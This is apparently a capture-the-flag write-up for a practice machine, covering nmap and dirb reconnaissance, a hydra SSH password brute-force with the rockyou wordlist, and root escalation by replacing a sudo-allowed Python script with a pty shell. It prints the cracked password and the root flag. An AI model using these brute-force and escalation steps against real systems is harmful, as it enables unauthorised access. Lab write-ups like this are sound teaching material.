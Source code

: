 # Information Gathering
> nmap -A $TARGET > nmapres.txt

port 80 open, so let's check it.
  * View page source :
  * on nmap resaults: *http-robots.txt: 1 disallowed entry*

Every link has a href to homepage \<a href=\"#\"\> --> xss is not a good choice

lets find other dirs:

> dirb http://$TARGET /usr/share/wordlists/dirb/common.txt

found 3 resaults:
'''
	==> DIRECTORY: http://10.10.42.55/images/                                                          
	+ http://10.10.42.55/index.html (CODE:200|SIZE:5439)                                               
	+ http://10.10.42.55/robots.txt (CODE:200|SIZE:33)                                                 
	+ http://10.10.42.55/server-status (CODE:403|SIZE:299) 
'''
We can conclude there's something on robots.txt:
'''
	User-agent: rockyou 
	Disallow: /
'''
rockyou is the wordlist we use for weak common passwords
user-agent would be a username mentioned somewhere

SMB is closed to find users; So we have to find it manually

back to homepage :
> Posted on June 29th 2009 by **meliodas**

lets hydra meliodas : rockyou.txt on ssh
> hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$TARGET
Found!!!
[22][ssh] host: 10.10.42.55   login: meliodas   password: iloveyou1

---

Now we logged in as meliodas in the machine,
lets ls the home dir of meliodas

'''
	-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
	-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
'''
we have the user flag.

### Root flag

let's see what bak.py does;
It backups the whole website in /var/backups
but it requiers some root privilages
so let's see what we can do with sudo
> sudo -l
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

We can run the bak.py script as root
so let's write a script to give us shell access; But bak.py is -rw-r--r-- so it's write-protected. The solution is EZ! just remove and write again

> rm bak.py
> nano bak.py ( # vim wasn't there!!!)
'''
import pty

pty.spawn("/bin/sh")

'''
now if we run it we have a root tty and we can read root flag
> cat /root/root.txt

e8c8c6c256c35515d1d344ee0488c617
